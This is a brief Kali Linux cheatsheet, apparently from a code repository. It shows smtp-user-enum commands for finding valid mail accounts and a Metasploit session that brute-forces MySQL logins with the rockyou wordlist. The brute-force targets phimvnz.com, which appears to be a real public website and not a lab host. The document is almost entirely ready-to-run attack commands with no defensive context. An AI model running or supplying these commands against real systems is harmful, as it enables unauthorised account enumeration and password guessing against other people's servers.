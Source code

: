 
<!-- TOC -->

- [KALI TOOLS CHEATSHEET](#kali-tools-cheatsheet)
    - [1. Information Gathering](#1-information-gathering)
        - [1. SMTP Analysis](#1-smtp-analysis)
    - [8. Exploitation tool](#8-exploitation-tool)
        - [1. metasploit framework](#1-metasploit-framework)

<!-- /TOC -->

# KALI TOOLS CHEATSHEET

## 1. Information Gathering

### 1. SMTP Analysis

1. smtp-user-enum

```kali > smtp-user-enum -M VRFY -U <userlist> -t <target IP>```

```kali > smtp-user-enum -M VRFY -U /usr/share/fern-wifi-cracker/extras/wordlists/common.txt -t 192.168.1.101```

## 8. Exploitation tool

### 1. metasploit framework

- msfconsole

    - brute-force login mysql server:

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) > show options
msf auxiliary(scanner/mysql/mysql_login) > set rhosts phimvnz.com
msf auxiliary(scanner/mysql/mysql_login) > set user_file /usr/share/wordlists/rockyou.txt
msf auxiliary(scanner/mysql/mysql_login) > set pass_file /usr/share/wordlists/rockyou.txt
msf auxiliary(scanner/mysql/mysql_login) > run
```

